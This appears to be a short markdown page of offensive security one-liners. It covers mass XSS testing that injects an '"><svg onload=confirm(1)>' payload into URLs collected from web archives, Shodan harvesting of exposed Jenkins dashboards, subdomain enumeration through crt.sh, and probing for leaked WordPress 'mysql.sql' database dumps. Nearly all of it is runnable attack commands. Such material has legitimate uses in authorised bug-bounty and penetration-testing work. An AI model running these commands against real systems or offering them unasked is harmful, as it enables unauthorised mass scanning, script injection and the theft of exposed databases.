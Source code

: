 ```yaml
---
title: OneLiners
icon: fas fa-info-circle
order: 3
---
```


###Mass XSS via wayback machine
``gau http://target.com | uro | bhedak '"><svg onload=confirm(1)>' | airixss -payload "confirm(1)" | egrep -v 'Not'``<br>
```gau google.com | egrep -iv ".(jpg|jpeg|gif|css|tif|tiff|png|ttf|woff|woff2|icon|pdf|svg|txt|js)" | uro | bhedak '"><svg onload=confirm(1)>' | airixss -payload "confirm(1)" | egrep -v 'Not'```


###Mass IPs listing Via Shodan
```shodan search --limit 1000 'http.title:"Dashboard [Jenkins]"' | awk  '{print $1,":"$2}' | sed 's/ //' | httpx -silent | tee /root/Desktop/shodan.txt```


###Subdomain from crt.sh
```curl -s "https://crt.sh/?q=%25.target.com&output=json" | jq -r '.[].name_value' | tee /root/Desktop/crt.txt```

###wordpress mysql 
```sublist3r -d target.com | httpx -silent -path "/wp-content/mysql.sql" -mc 200 -t 250 -ports 80,443,8080,8443```

